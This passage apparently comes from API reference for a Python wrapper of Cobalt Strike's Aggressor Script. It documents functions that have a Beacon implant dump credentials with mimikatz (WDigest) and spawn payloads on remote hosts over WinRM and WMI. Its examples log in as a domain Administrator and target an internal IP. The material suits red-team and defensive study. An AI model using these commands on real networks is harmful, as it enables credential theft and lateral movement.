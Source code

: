 Documentation from https://www.cobaltstrike.com/aggressor-script/functions.html:

    Ask Beacon to dump in-memory credentials with mimikatz [with the wdigest command]. The &blogonpasswords option is superior to this command.
    Arguments
    $1 - the id for the beacon. This may be an array or a single ID.
    Example
    item "Dump &Passwords (WDigest)" {
        binput($1, "wdigest");
        bwdigest($1);
    }




## bwinrm
```python
bwinrm(*args, fork=None, sync=True)
```

Documentation from https://www.cobaltstrike.com/aggressor-script/functions.html:

    Ask Beacon to spawn a payload on a remote host. This function uses WinRM to run a PowerShell one-liner
    Arguments
    $1 - the id for the beacon. This may be an array or a single ID.
    $2 - the target to spawn a payload onto
    $3 - the listener to spawn
    Example
    brev2self();
    bloginuser($1, "CORP", "Administrator", "toor");
    bwinrm($1, "172.16.48.3", "my listener");


## bwmi
```python
bwmi(*args, fork=None, sync=True)
```

Documentation from https://www.cobaltstrike.com/aggressor-script/functions.html:

    Ask Beacon to spawn a payload on a remote host. This function uses WMI to run a PowerShell one-liner
    Arguments
    $1 - the id for the beacon. This may be an array or a single ID.
    $2 - the target to spawn a payload onto
    $3 - the listener to spawn
    Example
    brev2self();
    bloginuser($1, "CORP", "Administrator", "toor");
    bwmi($1, "172.16.48.3", "my listener");


## call
```python
call(*args, fork=None, sync=True)
```
